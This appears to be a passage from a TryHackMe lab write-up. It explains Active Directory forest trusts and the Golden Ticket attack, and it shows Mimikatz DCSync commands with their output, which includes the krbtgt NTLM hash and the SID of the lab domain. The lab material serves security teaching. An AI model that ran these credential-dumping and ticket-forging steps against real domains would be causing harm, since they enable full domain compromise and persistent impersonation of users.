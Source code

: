 It is common to have a root or parent domain in a forest. In our case, this is TRYHACKME.LOC. 

For each regional office, sub or child domains are created, such as ZA.TRYHACKME.LOC or UK.TRYHACKME.LOC. 

This forest configuration will allow the sharing of resources between the ZA and the UK office.

If some user in the UK office requires access to THMSERVER1, we can grant access for the user in the ZA domain. 

This permission delegation works since there is bidirectional trust between ZA and the root domain and the UK and the root domain, essentially creating a transitive trust between ZA and UK.

## KRBTGT and Golden Tickets

KRBTGT is the account used for Microsoft's implementation of Kerberos.

Essentially, this account acts as the service account for the Kerberos Distribution Center (KDC) service, which handles all Kerberos ticket requests. 

This account is used to encrypt and sign all Kerberos tickets for the domain. 
Since the password hash is shared by all domain controllers, they can then verify the authenticity of the received TGT when users request access to resources.

n a Golden Ticket attack, we bypass the KDC altogether and create our own TGTs, essentially becoming a Ticket Granting Server (TGS). 

In order to forge TGTs, we need the following information:

- The FQDN of the domain
- The security identifier (SID) of the domain
- The username of the account we want to impersonate
- The KRBTGT password hash

The first three are usually easy to recover. 

The last one requires a domain compromise since the KRBTGT password hash is only stored on domain controllers. 

Luckily for us, we have just compromised the Tier 0 admins group with a forged certificate, so we are in a position to recover the KRBTGT password hash.

We will again use Mimikatz with a DC Sync to recover the KRBTGT password hash on THMSERVER2:

```
C:\Tools>mimikatz_trunk\x64\mimikatz.exe

mimikatz # privilege::debug
mimikatz # lsadump:dcsync /user:za\krbtgt
[DC] 'za.tryhackme.loc' will be the domain
[DC] 'THMDC.za.tryhackme.loc' will be the DC server
[DC] 'za\krbtgt' will be the user account
[rpc] Service  : ldap
[rpc] AuthnSvc : GSS_NEGOTIATE (9)

Object RDN           : krbtgt

** SAM ACCOUNT **

SAM Username         : krbtgt
Account Type         : 30000000 ( USER_OBJECT )
User Account Control : 00000202 ( ACCOUNTDISABLE NORMAL_ACCOUNT )
Account expiration   :
Password last change : 4/25/2022 7:18:22 PM
Object Security ID   : S-1-5-21-3885271727-2693558621-2658995185-502
Object Relative ID   : 502

Credentials:
  Hash NTLM: 16f9af38fca3ada405386b3b57366082
    ntlm- 0: 16f9af38fca3ada405386b3b57366082
```